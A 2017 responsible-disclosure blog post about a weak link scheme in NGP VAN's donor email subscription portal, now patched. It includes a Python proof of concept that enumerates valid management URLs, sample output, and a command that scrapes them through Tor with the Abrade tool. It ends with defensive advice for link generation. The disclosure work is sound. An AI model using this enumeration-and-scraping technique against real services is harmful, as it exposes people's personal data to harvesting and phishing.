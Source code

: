 ```yaml
---
layout: post
title: Vulnerability Patched in Democratic Donor Database
image: /images/ngpvan.svg
date: 2017-10-16 08:00
tag: Weak URL Generation for Email Subscription Management Exposed Democratic Donors Emails to Attack
categories: [responsible disclosure, abrade, hacking]
---
```

[1]: https://www.ngpvan.com/
[2]: https://www.ngpvan.com/about
[3]: https://jlospinoso.github.io/cpp/developing/software/2017/09/15/abrade-web-scraper.html
[4]: https://www.incapsula.com/website-security/access-control.html
[5]: https://github.com/ziplokk1/incapsula-cracker-py3
[6]: https://en.wikipedia.org/wiki/Entropy_(information_theory)
[7]: https://en.wikipedia.org/wiki/Thunk
[8]: https://en.wikipedia.org/wiki/Universally_unique_identifier
[9]: https://www.salon.com/2017/09/13/theres-overwhelming-evidence-that-russia-hacked-democrats-but-the-government-hasnt-shared-it/
[10]: https://www.eff.org/issues/coders

A weak link-generation algorithm exposed Democratic Party donor information in the [NGP VAN][1] service to attack last month. The vulnerability would allow an attacker to unsubscribe large volumes of donors from Democratic candidates' fundraising emails, conduct phishing campaigns, or resell the data.

I disclosed the vulnerability to [NGP VAN][1]'s engineering team, which patched the vulnerability within a week.

[Salon published an article last month][9] suggesting a connection between Guccifer 2.0's 2016 DNC hack and NGP VAN.

In this blog post, I'll discuss the problem, give a proof of concept, and provide some recommendations to avoid similar problems in unauthenticated subscription-management portals.

# NGP VAN Emails

[NGP VAN][1] offers Democratic donor campaign information to Democratic and progressive campaigns and organizations. According [to their site][2], they service nearly every major Democratic campaign in America (to include President Obama).

Potential donors receive periodic emails from participating political candidates. At the bottom of each of these emails, the recipient has the option to update subscription preferences using a link with some large numbers in it, e.g.:

```
https://act.myngp.com/el/-9876543219876543219/1234567891234567891
```

This link is a [thunk][7] into the subscription management portal, e.g.:

```
https://act.myngp.com/Email/ManageEmailPreferences/1234567891234567891
```

Here's a redacted example:

![Email List Preferences](https://raw.githubusercontent.com/JLospinoso/jlospinoso.github.io/master/images/landing.png)

# The Vulnerability

The numerical portion of the subscription management URL is the *signed representation* of an 8-byte unsigned integer. This value encodes sensitive information an attacker could use to scrape NGP VAN's database.

The upper 4 bytes are a user ID while the lower 4 bytes is a partition ID, the "suffix". Once you find a valid suffix, you can scrape through the ~4.3 billion candidate user IDs. Valid suffixes are trivial to extract from valid NGP VAN emails.

Here's a proof of concept Python program that generates candidate URLs:

```
import struct
import argparse

def member_ids(start, suffix):
    while start < 0xFFFFFFFF:
        bits = struct.pack("<II", suffix, start)
        value = struct.unpack("q", bits)
        yield value[0]
        start += 1

parser = argparse.ArgumentParser()
parser.add_argument("--start", type=int, help="ID to start from.", default=0)
parser.add_argument("--suffix", type=int, help="secret suffix")
args = parser.parse_args()

start = args.start
for id in member_ids(args.start, args.suffix):
    print "/Email/ManageEmailPreferences/%d" % id
```

An attacker could pluck an appropriate suffix out of a valid campaign email, then use the program above to generate candidate links. Say the suffix is 0x11223344 (decimal 287454020):

```
> python gen.py --suffix=287454020
/Email/ManageEmailPreferences/287454020
/Email/ManageEmailPreferences/4582421316
/Email/ManageEmailPreferences/8877388612
/Email/ManageEmailPreferences/13172355908
/Email/ManageEmailPreferences/17467323204
/Email/ManageEmailPreferences/21762290500
/Email/ManageEmailPreferences/26057257796
/Email/ManageEmailPreferences/30352225092
/Email/ManageEmailPreferences/34647192388
/Email/ManageEmailPreferences/38942159684
...
```

Piping these routes into the [Abrade][3] web API scraper, an attacker could check hundreds of links per second via Tor:

```
python python gen.py --suffix=287454020 | abrade act.myngp.com --tls --stdin --tor --contents --screen "We're sorry"
```

NGP VAN uses [Incapsula][4], which adds some complexity to performing a scrape. This is a [cat and mouse game][5].

# Guidelines for Subscription Management

This attack no longer works thanks to a patch, but this disclosure is a cautionary tale to others implementing unauthenticated subscription management services.

When generating links for unauthenticated users, it's critical that you introduce very high [entropy][6] into the links. If in doubt, use a [UUID][8] and save a mapping from UUID to user accounts.

Obfuscation is not a good policy. The NGP VAN links appeared to have 64 bits of entropy (18,446,744,073,709,551,616 URLs--too large to scrape), but they actually contained 32 bits of entropy because of the suffix. That's certainly doable.

Using an anti-bot service will help, but a determined adversary can defeat these services. It's simply too hard a problem--the service has to parse legitimate traffic from attacker traffic, and they'll always err on the side of permitting.

Finally, don't expose the user's actual email address in the management page. It's just not necessary. Have the user sign up for an account and authenticate if PII is involved. (Note: NGP VAN no longer exposes full email addresses after this weekend's patch.)

# Thanks

Thanks to NGP VAN for being extremely responsive. They served as a model for how companies should react to responsible vulnerability disclosure.

Special thanks to the Electronic Frontier Foundation's [Coders' Rights Project][10].

